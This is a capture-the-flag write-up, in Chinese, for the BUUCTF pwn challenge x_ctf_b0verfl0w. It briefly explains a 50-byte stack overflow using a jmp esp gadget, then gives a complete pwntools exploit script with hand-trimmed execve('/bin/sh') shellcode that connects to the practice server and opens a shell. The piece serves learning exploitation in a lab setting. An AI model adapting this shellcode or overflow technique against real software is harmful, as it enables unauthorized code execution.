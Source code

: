 ```yaml
---
title: buuctf-pwn write-ups(11)
date: 2023-03-04 11:06:14
categories:
- write-ups
- buuctf 系列
---
```

# buu083-x_ctf_b0verfl0w

这道题一共可写50字节，其中可以覆盖返回地址，又有sub esp, 24h和jmp esp这样的gadget，可以直接在栈上写shellcode，但是对于50字节的利用比较紧凑，需要对shellcraft的汇编代码稍作修改。

其中将开头3个push改为2个，同时省去避免输入空字符所做的绕过，可以节省几个字节空间。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./b0verfl0w')
io = remote('node4.buuoj.cn', 27901)
elf = ELF('./b0verfl0w')

shell = '\
	push 0x68732f;\
	push 0x6e69622f;\
	mov ebx, esp;\
	push 0x6873;\
	xor ecx, ecx;\
	push ecx;\
	push 4;\
	pop ecx;\
	add ecx, esp;\
	push ecx;\
	mov ecx, esp;\
	xor edx, edx;\
	jmp .1;\
	pop eax;\
	pop eax;\
	pop eax;\
	pop eax;\
	.1:\
'

shell2 = '\
	push 11;\
	pop eax;\
	int 0x80;\
'

shellcode = asm(shell)
io.sendafter(b'name?\n', (p32(0x8048504) + shellcode[:0x20] + p32(0x80484fd) + asm(shell2)).ljust(50, b'a'))
io.interactive()
```
